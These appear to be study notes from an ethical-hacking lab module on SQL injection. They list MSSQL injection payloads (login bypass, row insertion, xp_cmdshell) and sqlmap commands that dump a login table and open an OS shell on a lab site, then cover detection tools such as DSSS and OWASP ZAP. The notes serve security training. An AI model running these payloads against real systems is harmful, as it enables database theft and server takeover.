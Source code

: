 # 15: SQL Injection

Types:
- In-band SQL injection
- Blind/inferential SQL injection (no error messages from the system)
- Out-of-band SQL injection (such as database email functionality, or file writing and loading functions)

## Perform Attacks

### Attack MSSQL
``` blah' or 1=1 -- ```

``` blah';insert into login values ('john','apple123'); -- ```

``` blah';create database mydatabase; --  ```

``` blah';exec master..xp_cmdshell 'ping www.certifiedhacker.com -l 65000 -t'; -- ```

### Extract Databases by sqlmap

``` sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value copied]" --dbs ```\
- get databases, and information about the web server OS, web application technology, and the backend DBMS.

``` sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value copied]" -D moviescope --tables ```\
- -D specifies the DBMS database to enumerate 
- --tables enumerates DBMS database tables

``` sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value copied]" -D moviescope -T User_Login --dump ```\
- Dump the table named "User_Login"

``` sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value copied]" --os-shell ```
- --os-shell is the prompt for an interactive OS shell

``` os-shell> TASKLIST ```

### Other SQL injection tools
- Mole (https://sourceforge.net), 
- Blisqy (https://github.com), 
- blind-sql-bitshifting (https://github.com), 
- bsql (https://github.com), and 
- NoSQLMap (https://github.com) 

## Detect SQL Injection Vulnerabilities

By monitoring HTTP traffic, SQL injection attack vectors, and determining if a web application or database code contains SQL injection vulnerabilities.

### Damn Small SQLi Scanner (DSSS)

``` cd DSSS ```

``` python3 dsss.py ```

``` python3 dsss.py -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie copied]" ```
- -u specifies the target URL. 
- --cookie specifies the HTTP cookie header value.
- then shows that the target website is vulnerable to blind SQL injection attacks.

### OWASP ZAP

Quick Start -> Automated Scan -> URL to attack -> Attack -> "Alerts" -> SQL Injection

### Other tools
- Acunetix Web Vulnerability Scanner (https://www.acunetix.com)
- Snort (https://snort.org)
- Burp Suite (https://www.portswigger.net)
- w3af (http://w3af.org) 
- Netsparker Web Application Security Scanner (https://www.netsparker.com)
